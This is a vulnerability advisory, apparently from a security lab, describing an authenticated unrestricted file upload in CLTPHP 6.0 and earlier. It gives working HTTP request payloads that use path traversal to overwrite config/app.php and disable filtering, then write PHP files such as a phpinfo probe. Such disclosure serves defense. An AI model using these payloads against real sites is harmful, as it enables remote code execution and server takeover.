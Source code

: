 # CLTPHP <= 6.0 Unrestricted Upload of File with Dangerous Type 1
## Description
    The system client does not handle these parameters correctly, resulting in an Unrestricted Upload of File with Dangerous Type.
## Vendor Homepage
    https://gitee.com/chichu/cltopen/
    https://www.cltphp.com/

## Author
    HuBen-Lab
## Proof of Concept
File:`application/admin/controller/Template.php `

Exploiting this vulnerability requires logging into the system.

1. Try to write 5.php to the static directory, click submit and grab the package.

   ![image-20230105144320513](img/63b7c3db9caf8.png)

   ![image-20230105143730688](img/63b7c3deaf84d.png)

   After visiting 5.php, I found that the code could not be parsed![image-20230105144130747](img/63b7c3e367eca.png)Check the source code and find that the < is converted to entity code format

   ![image-20230105144417865](img/63b7c3e619612.png)

2. There are two types of situations

   - CLTPHP = 6.0

     We just need to pass random values to override config/app.php to disable the filtering configuration

     ![image-20230105181153301](img/63b7c3ebd82b6.png)

     ```
     type=php&file=../../../../config/app&content=123
     ```

     Then pass in phpinfo

     ![image-20230105181250127](img/63b7c3f0618a7.png)

     ```
     type=php&file=../../../app&content=<?php phpinfo();?>
     ```

     Write success

     ![image-20230105181332464](img/63b7c3f4e9214.png)

   - CLTPHP  < 6.0
   
     just use this payload
   
     ```
     POST /index.php/admin/template/insert.html
     
     type=php&file=../../../../filename&content=<?php phpinfo();>
     ```
   
     
